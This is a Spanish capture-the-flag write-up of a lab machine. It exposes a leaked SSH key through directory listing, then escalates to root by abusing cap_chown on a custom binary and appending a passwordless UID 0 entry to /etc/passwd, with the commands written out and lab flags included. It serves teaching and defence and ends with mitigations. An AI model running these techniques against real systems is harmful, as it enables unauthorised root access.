## Información General

|Campo|Detalle|
|---|---|
|Máquina|El Heredero|
|Plataforma|whoami-labs|
|IP objetivo|172.17.0.2|
|Sistema Operativo|Linux (Debian 13 "trixie")|
|Servicios expuestos|SSH (22), HTTP (8080)|
|Vector inicial|Exposición de clave privada SSH vía directory listing|
|Vector de escalada|Capability `cap_chown` en binario custom `/usr/bin/sysowner`|
|Fecha|23/07/2026|

## Resumen del Ataque

El reconocimiento inicial reveló un servicio HTTP corriendo un `SimpleHTTPServer` de Python que exponía un "Internal File Share". Dentro de un directorio `.old/` con _directory listing_ habilitado se encontraron dos archivos sensibles: un backup de `bash_history` y una clave privada (`key.private`). El histórico de bash reveló el propósito original de esa clave y confirmó que era utilizable para autenticación SSH como el usuario `student`. Una vez dentro, la enumeración de capabilities con `getcap` mostró un binario custom, `/usr/bin/sysowner`, con la capability `cap_chown` asignada — permitiendo cambiar el propietario de cualquier archivo del sistema, incluido `/etc/passwd`. Añadiendo una entrada UID 0 propia se obtuvo una shell de root.

## Técnicas Usadas

- Escaneo de puertos y detección de servicios (`nmap`)
- Enumeración web / directory listing no protegido
- Exposición de secretos en backups (`bash_history_bak`, clave privada residual)
- Autenticación SSH mediante clave privada filtrada
- Enumeración de Linux capabilities (`getcap -r /`)
- Escalada de privilegios abusando de `cap_chown` sobre un binario custom para manipular `/etc/passwd`

## Desarrollo

### 1. Escaneo de puertos

```
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



### 2. Detección de versiones

```
nmap -p 22,8080 -sC -sV -oN allports 172.17.0.2
```



### 3. Enumeración web

```
http://172.17.0.2:8080/
```



Se identifica el directorio `.old/` como punto de interés.

### 4. Directory listing en `.old/`

```
http://172.17.0.2:8080/.old/
```



Se descargan ambos archivos: `bash_history_bak` y `key.private`.

### 5. Análisis del histórico de bash

```
cat bash_history_bak
```



El histórico confirma que `key.private` es en realidad la clave privada `id_rsa` generada para el usuario `student`, olvidada en un directorio temporal de desarrollo nunca limpiado.

### 6. Preparación y uso de la clave

```
chmod 600 key.private
```

```
ssh-keygen -f '/home/kali/.ssh/known_hosts' -R '172.17.0.2'
```

```
ssh -i key.private student@172.17.0.2
```

```
student@a0ef61e1b65d:~$ whoami
```



### 7. Enumeración de usuarios

```
student@a0ef61e1b65d:~$ grep bash /etc/passwd
```



### 8. Comprobación de sudo

```
student@a0ef61e1b65d:~$ sudo -l
```



`sudo` no está disponible, se descarta esa vía de escalada.

### 9. Búsqueda de binarios SUID

```
student@a0ef61e1b65d:~$ find / -perm -4000 -type f 2>/dev/null
```



Todos los binarios SUID encontrados son estándar del sistema, sin vectores evidentes. Se descarta esta ruta y se pasa a revisar capabilities.

### 10. Enumeración de capabilities

```
getcap -r / 2>/dev/null
```



Aparece un binario no estándar, `/usr/bin/sysowner`, con la capability `cap_chown` permite cambiar el propietario de cualquier archivo sin restricciones de permisos.

### 11. Abuso de `cap_chown` sobre `/etc/passwd`

```
/usr/bin/sysowner student /etc/passwd
```

Se cambia la propiedad de `/etc/passwd` al usuario `student`, permitiendo editarlo directamente.

```
echo 'x::0:0:root:/root:/bin/bash' >> /etc/passwd
```

Se añade una entrada con UID 0 y sin contraseña.

```
su x
```

```
root@a0ef61e1b65d:/home/student# whoami
```



### 12. Captura de flags

```
root@a0ef61e1b65d:/home/student# cat user.txt
```



```
root@a0ef61e1b65d:~# cat /root
root@a0ef61e1b65d:~# cat root.txt
```



```
Capabilities{e1_h3r3d3r0_sysowner}
Capabilities{e1_h3r3d3r0_backup}
```

## Lecciones Aprendidas

- Los directorios de desarrollo temporales (`.old/`, `dev_temp/`) suelen quedar accesibles vía web mucho después de haber cumplido su propósito, y son un objetivo habitual para directory listing.
- Un `bash_history` filtrado no solo da comandos: da contexto y confirma qué hace cada archivo encontrado, acelerando la explotación.
- Las claves privadas SSH nunca deberían copiarse ni residir en rutas servidas por un servidor web, ni siquiera "temporalmente".
- Las capabilities Linux en binarios custom son tan peligrosas como un SUID mal configurado y a menudo se pasan por alto frente a la búsqueda clásica de binarios SUID.
- `cap_chown` sobre un binario que opera archivos arbitrarios (como `/etc/passwd`) es una escalada directa a root.

## Medidas de Mitigación

- No servir directorios de desarrollo o backups desde el webroot; deshabilitar directory listing en servidores HTTP internos.
- Eliminar o rotar inmediatamente cualquier clave privada que haya quedado expuesta, y auditar su uso.
- Evitar guardar histórico de comandos con operaciones sensibles, o purgarlo tras tareas de mantenimiento.
- Auditar periódicamente binarios con capabilities asignadas (`getcap -r /`) igual que se audita SUID/SGID.
- Restringir `cap_chown` u otras capabilities peligrosas únicamente a binarios estrictamente necesarios y con validación de argumentos.


